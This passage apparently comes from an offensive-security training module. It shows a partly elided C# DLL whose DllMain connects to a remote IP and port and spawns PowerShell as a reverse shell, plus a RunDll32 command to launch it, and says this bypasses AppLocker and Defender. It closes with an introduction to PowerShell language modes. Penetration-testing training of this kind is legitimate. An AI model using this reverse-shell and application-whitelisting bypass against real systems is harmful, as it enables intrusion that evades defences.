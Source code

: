 ```csharp
<SNIP>
[DllExport("DllMain")]
public static void DllMain()
{
    try
    {
        // Connect to <IP> on <Port>/TCP
        TcpClient client = new TcpClient();
        client.Connect("10.10.10.10", 1010);
        <SNIP>
        p.StartInfo.FileName = "C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe";
        <SNIP>

```

Once the project is ready, we can compile it. If the process path is changed to spawn the `32-bit` version of `PowerShell`, we only need to switch `Debug` to `Release`. However, to launch the `64-bit` version of `PowerShell`, we need to go through the same process as in the previous section, changing `Any CPU` to `x64`.

![image](6lx9iV5aj7Iv.png)

Once the compilation settings are set, select `Build > Build RShell_D` to compile the program.

![image](8EvC4A6BdZSB.png)

Once compiled we may use the following command to execute `DllMain`, and we should get our reverse shell:

```powershell
C:\Windows\System32\RunDll32.exe C:\Tools\RShell_D\RShell_D\bin\Release\x86\RShell_D.dll,DllMain

```

As expected, the program works, bypassing both `AppLocker` and `Real-time protection`.

![image](VVaCzNGE80K6.png)

Note: `InstallUtil` and `RunDll32` are just two of many LOLBINs which may be used to gain code execution. It is recommended that you look around the LOLBAS project website, and try developing other payloads to expand your personal arsenal.


# PowerShell ConstrainedLanguage Mode

## Introduction to PowerShell ConstrainedLanguage Mode

The last thing we will cover in this module is [PowerShell ConstrainedLanguage Mode](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/). In `PowerShell`, there are four different [language modes](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_language_modes?view=powershell-7.4):

- `FullLanguage`: The default language mode, no restrictions.
- `RestrictedLanguage`: Users may run commands, but may not use script blocks.
- `ConstrainedLanguage`: Operations which could be abused by a malicious actor are restricted.
- `NoLanguage`: Completely disables the PowerShell scripting language
